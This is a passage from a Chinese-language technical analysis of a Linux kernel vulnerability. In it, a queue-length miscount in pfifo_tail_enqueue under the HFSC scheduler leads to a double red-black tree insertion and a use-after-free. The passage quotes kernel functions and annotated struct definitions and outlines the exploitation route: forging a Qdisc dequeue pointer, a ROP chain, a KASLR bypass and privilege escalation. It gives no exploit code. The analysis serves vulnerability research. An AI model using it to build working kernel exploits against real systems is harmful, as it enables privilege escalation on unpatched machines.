            eltree_remove(cl);
        }
    }

    qdisc_bstats_update(sch, skb);
    qdisc_qstats_backlog_dec(sch, skb);
    sch->q.qlen--;

    return skb;
}
```

##### 2-2-7-2. 取出实现

`qdisc_dequeue_peeked()` 负责从叶队列取出数据包：

```c
static inline struct sk_buff *qdisc_dequeue_peeked(struct Qdisc *sch)
{
    struct sk_buff *skb = skb_peek(&sch->gso_skb);

    if (skb) {
        /* 若 gso_skb 非空，优先从其中取出 */
        skb = __skb_dequeue(&sch->gso_skb);
        if (qdisc_is_percpu_stats(sch)) {
            qdisc_qstats_cpu_backlog_dec(sch, skb);
            qdisc_qstats_cpu_qlen_dec(sch);
        } else {
            qdisc_qstats_backlog_dec(sch, skb);
            sch->q.qlen--;
        }
    } else {
        /* 否则调用 qdisc 自身的 dequeue 回调 */
        skb = sch->dequeue(sch);
    }

    return skb;
}
```

在 UAF 建立后，`eltree_get_mindl()` 会从 `sched->eligible` 树中取出悬空指针所指向的 `hfsc_class`，随后 `qdisc_dequeue_peeked(cl->qdisc)` 访问已被释放或伪造的 `qdisc` 对象。若该对象的 `dequeue` 函数指针被控制，即可实现控制流劫持。

#### 2-2-8. 偏差放大与总结

综合以上分析，在 `sch->limit == 0` 且队列为空的场景下，`pfifo_tail_enqueue()` 使子 qdisc 的 `qlen` 从 0 变为 1，而 `hfsc_enqueue()` 在收到 `NET_XMIT_CN` 后直接返回，父 qdisc 的 `qlen` 保持不变。通过一系列 qdisc 创建与删除操作，可以进一步放大这一偏差，使目标类的叶 qdisc `qlen` 变为负值（如 -1）。负的 `qlen` 在 `hfsc_change_class()` 中仍满足 `cl->qdisc->q.qlen != 0`，从而在 Flow1 尚未执行时提前调用 Flow2 中的 `eltree_update()`。两次 `eltree_insert()` 作用于同一个 `el_node`，红黑树插入操作不检查节点是否已在树中，最终使 `sched->eligible.rb_node` 形成自引用。当该类被删除时，`el_node` 所在内存被释放，但树根仍持有悬空指针，形成 **Use-After-Free**。

从更宏观的视角看，该漏洞暴露了内核 qdisc 子系统在父子队列长度同步机制上的脆弱性——子队列的返回值语义与父队列的状态更新逻辑之间存在隐式耦合，而边界条件（`limit == 0`）下的语义退化未被充分考虑。此外，`->enqueue()` 返回 `NET_XMIT_SUCCESS` 时会触发 `->dequeue()`，而 `->dequeue()` 在 `sch->q.qlen == 0` 时提前返回。在 dequeue 调用链中，任何 `qlen == 0` 的 qdisc 都会阻止 dequeue 继续向下执行。这一特性被巧妙用于保持红黑树布局的稳定性，使得后续的状态构造过程可控。

### 2-3. 核心数据结构

该漏洞的触发与利用涉及 qdisc 子系统、HFSC 调度器、网络设备、netlink 配置接口、红黑树以及 XFRM 策略等多个层次的内核数据结构。这些结构体通过字段间的相互引用，共同构成了从计数偏差到 UAF、再到 KASLR 绕过与权限提升的完整链条。以下按功能层次分组，逐层展开各结构体的字段构成与作用。

#### 2-3-1. qdisc 核心结构

qdisc 子系统是漏洞的起源地。`pfifo_tail_enqueue()` 的计数偏差正是在 qdisc 层面产生，并通过 qdisc 之间的层级关系向上传导。理解这一层次的结构体，是理解漏洞触发机制的基础。

##### 2-3-1-1. Qdisc

`Qdisc` 是队列规则的实例，承载队列长度、限制、函数指针以及统计信息。其 `limit` 字段被设为 0 时触发漏洞，`q.qlen` 字段是计数偏差的核心载体，`enqueue` 与 `dequeue` 函数指针在 UAF 建立后可被控制，成为控制流转移与后续权限提升的入口。

```c
struct Qdisc {
    int (*enqueue)(struct sk_buff *, struct Qdisc *, struct sk_buff **);
                                    /* 入队函数指针，由具体 qdisc 类型实现 */
    struct sk_buff *(*dequeue)(struct Qdisc *);
                                    /* 出队函数指针，UAF 建立后可被控制，
                                     * 是控制流转移与权限提升的入口 */
    unsigned int flags;             /* qdisc 标志位 */
    u32 limit;                      /* 队列容量上限，limit == 0 是触发漏洞的条件 */
    const struct Qdisc_ops *ops;    /* 指向 qdisc 操作函数集 */
    struct qdisc_size_table *stab;  /* 大小表 */
    struct hlist_node hash;         /* qdisc 哈希节点 */
    u32 handle;                     /* qdisc 句柄 */
    u32 parent;                     /* 父句柄 */
    struct netdev_queue *dev_queue; /* 关联的网络设备队列 */
    struct net_rate_estimator *rate_est;
                                    /* 速率估计器 */
    struct gnet_stats_basic_sync *cpu_bstats;
                                    /* per-CPU 基本统计 */
    struct gnet_stats_queue *cpu_qstats;
                                    /* per-CPU 队列统计 */
    int pad;                        /* 对齐填充 */
    refcount_t refcnt;              /* 引用计数 */
    struct sk_buff_head gso_skb;    /* GSO 暂存队列 */
    struct qdisc_skb_head q;        /* skb 队列头，含 qlen */
    struct gnet_stats_basic_sync bstats;
                                    /* 基本统计 */
    struct gnet_stats_queue qstats; /* 队列统计，含 qlen、backlog、drops */
    int owner;                      /* 所有者 */
    unsigned long state;            /* 状态 */
    unsigned long state2;           /* 扩展状态 */
    struct Qdisc *next_sched;       /* 下一个 qdisc */
    struct sk_buff_head skb_bad_txq;
                                    /* 坏包队列 */
    spinlock_t busylock;            /* 忙锁 */
    spinlock_t seqlock;             /* 序列锁 */
    struct callback_head rcu;       /* RCU 回调头，用于延迟释放 */
    netdevice_tracker dev_tracker;  /* 设备追踪器 */
    struct lock_class_key root_lock_key;
                                    /* 锁依赖键 */
    long privdata[];                /* 私有数据柔性数组 */
};
```

其中，`limit` 字段决定了 `pfifo_tail_enqueue()` 进入快速路径还是慢速路径；`q.qlen` 是子 qdisc 被错误递增的字段；`qstats.qlen` 与 `qstats.backlog` 在父队列调整时被间接修改；`ops->enqueue` 与 `ops->dequeue` 在 UAF 建立后成为控制流转移的目标，进而为权限提升提供入口。

##### 2-3-1-2. Qdisc_ops

`Qdisc_ops` 描述 qdisc 类型的操作函数集。`pfifo_head_drop` 类型的 `enqueue` 指向 `pfifo_tail_enqueue()`，`hfsc` 类型的 `enqueue` 指向 `hfsc_enqueue()`，二者共同构成了计数偏差的传导路径。

```c
struct Qdisc_ops {
    struct Qdisc_ops *next;                     /* 链表下一项 */
    const struct Qdisc_class_ops *cl_ops;       /* 类操作函数集 */
    char id[16];                                /* qdisc 类型标识 */
    int priv_size;                              /* 私有数据大小 */
    unsigned int static_flags;                  /* 静态标志 */
    int (*enqueue)(struct sk_buff *, struct Qdisc *, struct sk_buff **);
                                                /* 入队回调 */
    struct sk_buff *(*dequeue)(struct Qdisc *); /* 出队回调 */
    struct sk_buff *(*peek)(struct Qdisc *);    /* 窥视回调 */
    int (*init)(struct Qdisc *, struct nlattr *, struct netlink_ext_ack *);
                                                /* 初始化回调 */
    void (*reset)(struct Qdisc *);              /* 重置回调 */
    void (*destroy)(struct Qdisc *);            /* 销毁回调 */
    int (*change)(struct Qdisc *, struct nlattr *, struct netlink_ext_ack *);
                                                /* 修改回调 */
    void (*attach)(struct Qdisc *);             /* 附加回调 */
    int (*change_tx_queue_len)(struct Qdisc *, unsigned int);
                                                /* 修改队列长度回调 */
    void (*change_real_num_tx)(struct Qdisc *, unsigned int);
                                                /* 修改真实发送队列数回调 */
    int (*dump)(struct Qdisc *, struct sk_buff *);
                                                /* 导出回调 */
    int (*dump_stats)(struct Qdisc *, struct gnet_dump *);
                                                /* 导出统计回调 */
    void (*ingress_block_set)(struct Qdisc *, u32);
                                                /* 入向块设置 */
    void (*egress_block_set)(struct Qdisc *, u32);
                                                /* 出向块设置 */
    u32 (*ingress_block_get)(struct Qdisc *);   /* 入向块获取 */
    u32 (*egress_block_get)(struct Qdisc *);    /* 出向块获取 */
    struct module *owner;                       /* 所属模块 */
};
```

##### 2-3-1-3. Qdisc_class_ops

`Qdisc_class_ops` 描述 qdisc 的类操作函数集。`hfsc_change_class()`、`hfsc_delete_class()` 等函数正是通过 `change`、`delete` 等回调被调用，是漏洞触发流程中类操作的入口，也是 UAF 槽位产生与回收的起点。

```c
struct Qdisc_class_ops {
    unsigned int flags;                         /* 标志 */
    struct netdev_queue *(*select_queue)(struct Qdisc *, struct tcmsg *);
                                                /* 选择发送队列回调 */
    int (*graft)(struct Qdisc *, unsigned long, struct Qdisc *, struct Qdisc **, struct netlink_ext_ack *);
                                                /* 嫁接回调 */
    struct Qdisc *(*leaf)(struct Qdisc *, unsigned long);
                                                /* 获取叶 qdisc 回调 */
    void (*qlen_notify)(struct Qdisc *, unsigned long);
                                                /* 队列长度通知回调 */
    unsigned long (*find)(struct Qdisc *, u32); /* 查找类回调 */
    int (*change)(struct Qdisc *, u32, u32, struct nlattr **, unsigned long *, struct netlink_ext_ack *);
                                                /* 修改类回调 */
    int (*delete)(struct Qdisc *, unsigned long, struct netlink_ext_ack *);
                                                /* 删除类回调 */
    void (*walk)(struct Qdisc *, struct qdisc_walker *);
                                                /* 遍历回调 */
    struct tcf_block *(*tcf_block)(struct Qdisc *, unsigned long, struct netlink_ext_ack *);
                                                /* 获取过滤器块回调 */
    unsigned long (*bind_tcf)(struct Qdisc *, unsigned long, u32);
                                                /* 绑定回调 */
    void (*unbind_tcf)(struct Qdisc *, unsigned long);
                                                /* 解绑回调 */
    int (*dump)(struct Qdisc *, unsigned long, struct sk_buff *, struct tcmsg *);
                                                /* 导出回调 */
    int (*dump_stats)(struct Qdisc *, unsigned long, struct gnet_dump *);
                                                /* 导出统计回调 */
};
```

##### 2-3-1-4. qdisc_skb_head

`qdisc_skb_head` 是 qdisc 内部的 skb 队列头。其 `qlen` 字段是计数偏差的直接载体：在 `pfifo_tail_enqueue()` 的慢速路径中，丢弃步骤空转但追加步骤执行，`qlen` 从 0 变为 1，而父 qdisc 的 `qlen` 保持不变，偏差由此产生。

```c
struct qdisc_skb_head {
    struct sk_buff *head;   /* 队首 skb */
    struct sk_buff *tail;   /* 队尾 skb */
    __u32 qlen;             /* 队列长度 */
    spinlock_t lock;        /* 队列锁 */
};
```

##### 2-3-1-5. gnet_stats_queue

`gnet_stats_queue` 记录 qdisc 的队列统计信息。`qlen` 与 `backlog` 的异常变化是计数偏差的观测点：在 `qdisc_tree_reduce_backlog()` 中，`backlog` 被减去一个负值，导致父 qdisc 的 `backlog` 被错误增加。

```c
struct gnet_stats_queue {
    __u32 qlen;             /* 队列长度 */
    __u32 backlog;          /* 积压字节数 */
    __u32 drops;            /* 丢弃计数 */
    __u32 requeues;         /* 重入队计数 */
    __u32 overlimits;       /* 超限计数 */
};
```

##### 2-3-1-6. gnet_stats_basic_sync

`gnet_stats_basic_sync` 记录 qdisc 或类的基本统计，用于流量计量与速率估计。

```c
struct gnet_stats_basic_sync {
    u64_stats_t bytes;              /* 字节数 */
    u64_stats_t packets;            /* 数据包数 */
    struct u64_stats_sync syncp;    /* 同步原语 */
};
```

以上 qdisc 核心结构体共同构成了漏洞的起源层。当 `pfifo_tail_enqueue()` 的计数偏差产生后，需要通过 HFSC 调度器的类变更路径进一步放大，这就涉及下一层次的 HFSC 结构体。

#### 2-3-2. HFSC 调度器结构

HFSC 调度器是计数偏差的放大层。通过 `hfsc_change_class()` 中的 `update_ed()` 与 `init_ed()` 分支，偏差被转化为红黑树节点的双重插入。理解 HFSC 结构体，是理解 UAF 形成机制的关键。

##### 2-3-2-1. hfsc_sched

`hfsc_sched` 是 HFSC qdisc 的私有调度数据。其 `eligible` 红黑树在双重插入后形成自引用，`root` 根类内嵌于调度器中，`watchdog` 用于调度超时处理。

```c
struct hfsc_sched {
    u16 defcls;                     /* 默认类 */
    struct hfsc_class root;         /* 根类，内嵌于调度器 */
    struct Qdisc_class_hash clhash; /* 类哈希表 */
    struct rb_root eligible;        /* 可调度红黑树，UAF 悬空指针所在 */
    struct qdisc_watchdog watchdog; /* 看门狗定时器 */
};
```

##### 2-3-2-2. hfsc_class

`hfsc_class` 是 HFSC 类的实体，也是 UAF 的直接受害者。其 `el_node` 被双重插入后形成自引用：第一次插入将 `__rb_parent_color` 设为 `0 | RB_BLACK`，第二次插入将其覆写为指向自身，`rb_left` 也指向自身。`qdisc` 指针在 UAF 建立后可被伪造的 Qdisc 替代，其 `dequeue` 函数指针成为控制流转移的入口，最终用于实现权限提升。

```c
struct hfsc_class {
    struct Qdisc_class_common cl_common;
                                    /* 类公共字段，含 classid */
    struct gnet_stats_basic_sync bstats;
                                    /* 基本统计 */
    struct gnet_stats_queue qstats; /* 队列统计 */
    struct net_rate_estimator *rate_est;
                                    /* 速率估计器 */
    struct tcf_proto *filter_list;  /* 过滤器链表 */
    struct tcf_block *block;        /* 过滤器块 */
    unsigned int level;             /* 层次级别 */
    struct hfsc_sched *sched;       /* 所属调度器 */
    struct hfsc_class *cl_parent;   /* 父类指针 */
    struct list_head siblings;      /* 兄弟链表节点 */
    struct list_head children;      /* 子类链表头 */
    struct Qdisc *qdisc;            /* 叶 qdisc 指针，UAF 后可被伪造的 Qdisc 替代，
                                     * 其 dequeue 函数指针成为控制流转移与权限提升的入口 */
    struct rb_node el_node;         /* eligible 红黑树节点，UAF 直接受害者 */
    struct rb_root vt_tree;         /* 虚拟时间树 */
    struct rb_node vt_node;         /* 虚拟时间节点 */
    struct rb_root cf_tree;         /* 曲线树 */
    struct rb_node cf_node;         /* 曲线节点 */
    u64 cl_total;                   /* 累计总量 */
    u64 cl_cumul;                   /* 累计量 */
    u64 cl_d;                       /* 截止期 */
    u64 cl_e;                       /* eligible 时间，红黑树排序依据 */
    u64 cl_vt;                      /* 虚拟时间 */
    u64 cl_f;                       /* 当前曲线值 */
    u64 cl_myf;                     /* 自身曲线值 */
    u64 cl_cfmin;                   /* 子类最小曲线值 */
    u64 cl_cvtmin;                  /* 子类最小虚拟时间 */
    u64 cl_vtadj;                   /* 虚拟时间调整 */
    u64 cl_cvtoff;                  /* 虚拟时间偏移 */
    struct internal_sc cl_rsc;      /* 实时服务曲线 */
    struct internal_sc cl_fsc;      /* 公平服务曲线 */
    struct internal_sc cl_usc;      /* 上层服务曲线 */
    struct runtime_sc cl_deadline;  /* 截止期曲线 */
    struct runtime_sc cl_eligible;  /* eligible 曲线 */
    struct runtime_sc cl_virtual;   /* 虚拟时间曲线 */
    struct runtime_sc cl_ulimit;    /* 上层限制曲线 */
    u8 cl_flags;                    /* 类标志，如 HFSC_RSC、HFSC_FSC */
    u32 cl_vtperiod;                /* 虚拟时间周期 */
    u32 cl_parentperiod;            /* 父类周期 */
    u32 cl_nactive;                 /* 活跃计数 */
};
```

其中，`el_node` 的 `__rb_parent_color`、`rb_right`、`rb_left` 三个字段是双重插入的直接作用对象；`cl_e` 决定红黑树的插入方向；`qdisc` 指向叶队列，在代码执行原语中被替换为伪造的 Qdisc，其 `dequeue` 函数指针被控制，从而引导控制流进入预设的 ROP 链，最终完成权限提升；`sched` 指向所属调度器，其 `eligible` 树根在类删除后成为悬空指针。

##### 2-3-2-3. Qdisc_class_common

`Qdisc_class_common` 是 qdisc 类的公共字段，内嵌于 `hfsc_class` 中，提供类标识与哈希节点。

```c
struct Qdisc_class_common {
    u32 classid;                    /* 类标识 */
    unsigned int filter_cnt;        /* 过滤器计数 */
    struct hlist_node hnode;        /* 哈希节点 */
};
```

##### 2-3-2-4. tc_service_curve

`tc_service_curve` 描述 HFSC 服务曲线参数，由用户态通过 netlink 传入，决定 `hfsc_change_class()` 中 RSC、FSC 的更新路径。

```c
struct tc_service_curve {
    __u32 m1;   /* 第一段斜率 */
    __u32 d;    /* 拐点位置 */
    __u32 m2;   /* 第二段斜率 */
};
```

HFSC 结构体构成了偏差放大的核心层。当 `el_node` 形成自引用后，需要通过 qdisc 的释放路径将其转化为 UAF 槽位，这就涉及网络设备与数据包层次的结构体。

#### 2-3-3. 网络设备与数据包

网络设备与数据包是漏洞的承载层。qdisc 挂载于网络设备的发送队列上，数据包通过 skb 在 qdisc 之间流转。理解这一层次的结构体，是理解 qdisc 层级关系与数据包路径的基础。

##### 2-3-3-1. net_device

`net_device` 描述网络设备，包含 qdisc 哈希表与发送队列。其 `qdisc` 字段指向根 qdisc，`qdisc_hash` 用于快速查找 qdisc，`_tx` 指向发送队列数组。

```c
struct net_device {
    __u8 __cacheline_group_begin__net_device_read_tx[0];
                                    /* 发送方向只读缓存行起始标记 */
    union {
        struct { /* 匿名结构体，包含私有标志 */ };
        struct { /* 匿名结构体 */ } priv_flags_fast;
    };
    const struct net_device_ops *netdev_ops;
                                    /* 设备操作函数集 */
    const struct header_ops *header_ops;
                                    /* 头部操作函数集 */
    struct netdev_queue *_tx;       /* 发送队列数组 */
    netdev_features_t gso_partial_features;
                                    /* 部分 GSO 特性 */
    unsigned int real_num_tx_queues;
                                    /* 实际发送队列数 */
    unsigned int gso_max_size;      /* GSO 最大尺寸 */
    unsigned int gso_ipv4_max_size; /* IPv4 GSO 最大尺寸 */
    u16 gso_max_segs;               /* GSO 最大分段数 */
    s16 num_tc;                     /* 流量类别数 */
    unsigned int mtu;               /* 最大传输单元 */
    unsigned short needed_headroom; /* 需要的头部空间 */
    struct netdev_tc_txq tc_to_txq[16];
                                    /* 流量类别到发送队列映射 */
    struct xps_dev_maps *xps_maps[2];
                                    /* XPS 设备映射 */
    struct nf_hook_entries *nf_hooks_egress;
                                    /* 出向 netfilter 钩子 */
    struct bpf_mprog_entry *tcx_egress;
                                    /* 出向 tc BPF 程序 */
    __u8 __cacheline_group_end__net_device_read_tx[0];
                                    /* 发送方向只读缓存行结束标记 */
    __u8 __cacheline_group_begin__net_device_read_txrx[0];
                                    /* 收发方向只读缓存行起始标记 */
    union {
        struct pcpu_lstats *lstats;     /* 延迟统计 */
        struct pcpu_sw_netstats *tstats;/* 软件网络统计 */
        struct pcpu_dstats *dstats;     /* 丢弃统计 */
    };
    unsigned long state;            /* 设备状态 */
    unsigned int flags;             /* 设备标志 */
    unsigned short hard_header_len; /* 硬件头部长度 */
    netdev_features_t features;     /* 设备特性 */
    struct inet6_dev *ip6_ptr;      /* IPv6 设备指针 */
    __u8 __cacheline_group_end__net_device_read_txrx[0];
                                    /* 收发方向只读缓存行结束标记 */
    __u8 __cacheline_group_begin__net_device_read_rx[0];
                                    /* 接收方向只读缓存行起始标记 */
    struct bpf_prog *xdp_prog;      /* XDP 程序 */
    struct list_head ptype_specific;
                                    /* 协议类型特定链表 */
    int ifindex;                    /* 接口索引 */
    unsigned int real_num_rx_queues;
                                    /* 实际接收队列数 */
    struct netdev_rx_queue *_rx;    /* 接收队列数组 */
    unsigned long gro_flush_timeout;/* GRO 刷新超时 */
    u32 napi_defer_hard_irqs;       /* NAPI 延迟硬中断 */
    unsigned int gro_max_size;      /* GRO 最大尺寸 */
    unsigned int gro_ipv4_max_size; /* IPv4 GRO 最大尺寸 */
    rx_handler_func_t *rx_handler;  /* 接收处理函数 */
    void *rx_handler_data;          /* 接收处理数据 */
    possible_net_t nd_net;          /* 网络命名空间 */
    struct netpoll_info *npinfo;    /* netpoll 信息 */
    struct bpf_mprog_entry *tcx_ingress;
                                    /* 入向 tc BPF 程序 */
    __u8 __cacheline_group_end__net_device_read_rx[0];
                                    /* 接收方向只读缓存行结束标记 */
    char name[16];                  /* 设备名称 */
    struct netdev_name_node *name_node;
                                    /* 名称节点 */
    struct dev_ifalias *ifalias;    /* 接口别名 */
    unsigned long mem_end;          /* 内存结束地址 */
    unsigned long mem_start;        /* 内存起始地址 */
    unsigned long base_addr;        /* 基地址 */
    struct list_head dev_list;      /* 设备链表 */
    struct list_head napi_list;     /* NAPI 链表 */
    struct list_head unreg_list;    /* 注销链表 */
    struct list_head close_list;    /* 关闭链表 */
    struct list_head ptype_all;     /* 协议类型链表 */
    struct {
        struct list_head upper;     /* 上层链表 */
        struct list_head lower;     /* 下层链表 */
    } adj_list;
    xdp_features_t xdp_features;    /* XDP 特性 */
    const struct xdp_metadata_ops *xdp_metadata_ops;
                                    /* XDP 元数据操作 */
    const struct xsk_tx_metadata_ops *xsk_tx_metadata_ops;
                                    /* XSK 发送元数据操作 */
    unsigned short gflags;          /* 全局标志 */
    unsigned short needed_tailroom; /* 需要的尾部空间 */
    netdev_features_t hw_features;  /* 硬件特性 */
    netdev_features_t wanted_features;
                                    /* 期望特性 */
    netdev_features_t vlan_features;
                                    /* VLAN 特性 */
    netdev_features_t hw_enc_features;
                                    /* 硬件封装特性 */
    netdev_features_t mpls_features;
                                    /* MPLS 特性 */
    unsigned int min_mtu;           /* 最小 MTU */
    unsigned int max_mtu;           /* 最大 MTU */
    unsigned short type;            /* 设备类型 */
    unsigned char min_header_len;   /* 最小头部长度 */
    unsigned char name_assign_type; /* 名称分配类型 */
    int group;                      /* 组 */
    struct net_device_stats stats;  /* 设备统计 */
    struct net_device_core_stats *core_stats;
                                    /* 核心统计 */
    atomic_t carrier_up_count;      /* 载波上线计数 */
    atomic_t carrier_down_count;    /* 载波下线计数 */
    const struct iw_handler_def *wireless_handlers;
                                    /* 无线处理函数集 */
    struct iw_public_data *wireless_data;
                                    /* 无线公共数据 */
    const struct ethtool_ops *ethtool_ops;
                                    /* ethtool 操作 */
    const struct l3mdev_ops *l3mdev_ops;
                                    /* L3 主设备操作 */
    const struct ndisc_ops *ndisc_ops;
                                    /* 邻居发现操作 */
    const struct xfrmdev_ops *xfrmdev_ops;
                                    /* XFRM 设备操作 */
    const struct tlsdev_ops *tlsdev_ops;
                                    /* TLS 设备操作 */
    unsigned int operstate;         /* 运行状态 */
    unsigned char link_mode;        /* 链路模式 */
    unsigned char if_port;          /* 接口端口 */
    unsigned char dma;              /* DMA 通道 */
    unsigned char perm_addr[32];    /* 永久地址 */
    unsigned char addr_assign_type; /* 地址分配类型 */
    unsigned char addr_len;         /* 地址长度 */
    unsigned char upper_level;      /* 上层级别 */
    unsigned char lower_level;      /* 下层级别 */
    unsigned short neigh_priv_len;  /* 邻居私有长度 */
    unsigned short dev_id;          /* 设备 ID */
    unsigned short dev_port;        /* 设备端口 */
    int irq;                        /* 中断号 */
    u32 priv_len;                   /* 私有数据长度 */
    spinlock_t addr_list_lock;      /* 地址链表锁 */
    struct netdev_hw_addr_list uc;  /* 单播地址链表 */
    struct netdev_hw_addr_list mc;  /* 组播地址链表 */
    struct netdev_hw_addr_list dev_addrs;
                                    /* 设备地址链表 */
    struct kset *queues_kset;       /* 队列 kset */
    unsigned int promiscuity;       /* 混杂模式计数 */
    unsigned int allmulti;          /* 全组播计数 */
    bool uc_promisc;                /* 单播混杂 */
    struct in_device *ip_ptr;       /* IPv4 设备指针 */
    struct vlan_info *vlan_info;    /* VLAN 信息 */
    struct dsa_port *dsa_ptr;       /* DSA 端口 */
    struct tipc_bearer *tipc_ptr;   /* TIPC 承载 */
    void *atalk_ptr;                /* AppleTalk 指针 */
    struct ax25_dev *ax25_ptr;      /* AX.25 设备 */
    struct wireless_dev *ieee80211_ptr;
                                    /* IEEE 802.11 设备 */
    struct wpan_dev *ieee802154_ptr;
                                    /* IEEE 802.15.4 设备 */
    struct mpls_dev *mpls_ptr;      /* MPLS 设备 */
    struct mctp_dev *mctp_ptr;      /* MCTP 设备 */
    const unsigned char *dev_addr;  /* 设备地址 */
    unsigned int num_rx_queues;     /* 接收队列数 */
    unsigned int xdp_zc_max_segs;   /* XDP 零拷贝最大分段 */
    struct netdev_queue *ingress_queue;
                                    /* 入向队列 */
    struct nf_hook_entries *nf_hooks_ingress;
                                    /* 入向 netfilter 钩子 */
    unsigned char broadcast[32];    /* 广播地址 */
    struct cpu_rmap *rx_cpu_rmap;   /* 接收 CPU 映射 */
    struct hlist_node index_hlist;  /* 索引哈希节点 */
    unsigned int num_tx_queues;     /* 发送队列数 */
    struct Qdisc *qdisc;            /* 根 qdisc 指针 */
    unsigned int tx_queue_len;      /* 发送队列长度 */
    spinlock_t tx_global_lock;      /* 发送全局锁 */
    struct xdp_dev_bulk_queue *xdp_bulkq;
                                    /* XDP 批量队列 */
    struct hlist_head qdisc_hash[16];
                                    /* qdisc 哈希表 */
    struct timer_list watchdog_timer;
                                    /* 看门狗定时器 */
    int watchdog_timeo;             /* 看门狗超时 */
    u32 proto_down_reason;          /* 协议下线原因 */
    struct list_head todo_list;     /* 待办链表 */
    int *pcpu_refcnt;               /* per-CPU 引用计数 */
    struct ref_tracker_dir refcnt_tracker;
                                    /* 引用计数追踪器 */
    struct list_head link_watch_list;
                                    /* 链路监视链表 */
    u8 reg_state;                   /* 注册状态 */
    bool dismantle;                 /* 是否拆除 */
    enum {RTNL_LINK_INITIALIZED, RTNL_LINK_INITIALIZING} rtnl_link_state : 16;
                                    /* RTNL 链路状态 */
    bool needs_free_netdev;         /* 是否需要释放 */
    void (*priv_destructor)(struct net_device *);
                                    /* 私有析构函数 */
    void *ml_priv;                  /* 中间层私有数据 */
    enum netdev_ml_priv_type ml_priv_type;
                                    /* 中间层私有类型 */
    enum netdev_stat_type pcpu_stat_type : 8;
                                    /* per-CPU 统计类型 */
    struct garp_port *garp_port;    /* GARP 端口 */
    struct mrp_port *mrp_port;      /* MRP 端口 */
    struct dm_hw_stat_delta *dm_private;
                                    /* 设备映射私有数据 */
    struct device dev;              /* 设备结构 */
    const struct attribute_group *sysfs_groups[4];
                                    /* sysfs 属性组 */
    const struct attribute_group *sysfs_rx_queue_group;
                                    /* sysfs 接收队列属性组 */
    const struct rtnl_link_ops *rtnl_link_ops;
                                    /* RTNL 链路操作 */
    const struct netdev_stat_ops *stat_ops;
                                    /* 统计操作 */
    const struct netdev_queue_mgmt_ops *queue_mgmt_ops;
                                    /* 队列管理操作 */
    unsigned int tso_max_size;      /* TSO 最大尺寸 */
    u16 tso_max_segs;               /* TSO 最大分段 */
    const struct dcbnl_rtnl_ops *dcbnl_ops;
                                    /* DCB netlink 操作 */
    u8 prio_tc_map[16];             /* 优先级到流量类别映射 */
    unsigned int fcoe_ddp_xid;      /* FCoE DDP XID */
    struct netprio_map *priomap;    /* 网络优先级映射 */
    struct phy_link_topology *link_topo;
                                    /* PHY 链路拓扑 */
    struct phy_device *phydev;      /* PHY 设备 */
    struct sfp_bus *sfp_bus;        /* SFP 总线 */
    struct lock_class_key *qdisc_tx_busylock;
                                    /* qdisc 发送忙锁键 */
    bool proto_down;                /* 协议下线 */
    bool threaded;                  /* 是否线程化 */
    unsigned long see_all_hwtstamp_requests : 1;
                                    /* 是否查看所有硬件时间戳请求 */
    unsigned long change_proto_down : 1;
                                    /* 修改协议下线 */
    unsigned long netns_local : 1;  /* 网络命名空间本地 */
    unsigned long fcoe_mtu : 1;     /* FCoE MTU */
    struct list_head net_notifier_list;
                                    /* 网络通知链表 */
    const struct macsec_ops *macsec_ops;
                                    /* MACsec 操作 */
    const struct udp_tunnel_nic_info *udp_tunnel_nic_info;
                                    /* UDP 隧道网卡信息 */
    struct udp_tunnel_nic *udp_tunnel_nic;
                                    /* UDP 隧道网卡 */
    struct ethtool_netdev_state *ethtool;
                                    /* ethtool 状态 */
    struct bpf_xdp_entity xdp_state[3];
                                    /* XDP 状态 */
    u8 dev_addr_shadow[32];         /* 设备地址影子 */
    netdevice_tracker linkwatch_dev_tracker;
                                    /* 链路监视设备追踪器 */
    netdevice_tracker watchdog_dev_tracker;
                                    /* 看门狗设备追踪器 */
    netdevice_tracker dev_registered_tracker;
                                    /* 设备注册追踪器 */
    struct rtnl_hw_stats64 *offload_xstats_l3;
                                    /* 卸载 L3 统计 */
    struct devlink_port *devlink_port;
                                    /* devlink 端口 */
    struct dpll_pin *dpll_pin;      /* DPLL 引脚 */
    struct hlist_head page_pools;   /* 页面池链表 */
    struct dim_irq_moder *irq_moder;
                                    /* 中断调节器 */
    u8 priv[];                      /* 私有数据柔性数组 */
};
```

其中，`qdisc` 字段指向根 qdisc，是 `qdisc_tree_reduce_backlog()` 向上遍历的起点；`qdisc_hash` 用于通过句柄快速定位 qdisc；`_tx` 指向发送队列数组，每个发送队列上挂载一个 qdisc。

##### 2-3-3-2. netdev_queue

`netdev_queue` 描述网络设备的发送队列。其 `qdisc` 字段指向当前 qdisc，`qdisc_sleeping` 指向休眠 qdisc，二者在 qdisc 替换过程中被更新。

```c
struct netdev_queue {
    struct net_device *dev;             /* 关联设备 */
    netdevice_tracker dev_tracker;      /* 设备追踪器 */
    struct Qdisc *qdisc;                /* 当前 qdisc */
    struct Qdisc *qdisc_sleeping;       /* 休眠 qdisc */
    struct kobject {
        const char *name;               /* 名称 */
        struct list_head {
            struct list_head *next;     /* 链表下一项 */
            struct list_head *prev;     /* 链表上一项 */
        } entry;                        /* 链表节点 */
        struct kobject *parent;         /* 父 kobject */
        struct kset *kset;              /* 所属 kset */
        const struct kobj_type *ktype;  /* kobject 类型 */
        struct kernfs_node *sd;         /* kernfs 节点 */
        struct kref {
            refcount_t refcount;        /* 引用计数 */
        } kref;                         /* 引用 */
        unsigned int state_initialized : 1;
                                        /* 已初始化 */
        unsigned int state_in_sysfs : 1;/* 在 sysfs 中 */
        unsigned int state_add_uevent_sent : 1;
                                        /* 已发送添加 uevent */
        unsigned int state_remove_uevent_sent : 1;
                                        /* 已发送移除 uevent */
        unsigned int uevent_suppress : 1;
                                        /* 抑制 uevent */
    } kobj;                             /* kobject */
    unsigned long tx_maxrate;           /* 发送最大速率 */
    atomic_long_t trans_timeout;        /* 传输超时 */
    struct net_device *sb_dev;          /* 从设备 */
    struct xsk_buff_pool *pool;         /* XSK 缓冲池 */
    struct dql {
        unsigned int num_queued;        /* 已排队数 */
        unsigned int adj_limit;         /* 调整后限制 */
        unsigned int last_obj_cnt;      /* 上次对象数 */
        unsigned short stall_thrs;      /* 停滞阈值 */
        unsigned long history_head;     /* 历史头 */
        unsigned long history[4];       /* 历史记录 */
        unsigned int limit;             /* 限制 */
        unsigned int num_completed;     /* 已完成数 */
        unsigned int prev_ovlimit;      /* 上次超限 */
        unsigned int prev_num_queued;   /* 上次排队数 */
        unsigned int prev_last_obj_cnt; /* 上次对象数 */
        unsigned int lowest_slack;      /* 最低松弛 */
        unsigned long slack_start_time; /* 松弛开始时间 */
        unsigned int max_limit;         /* 最大限制 */
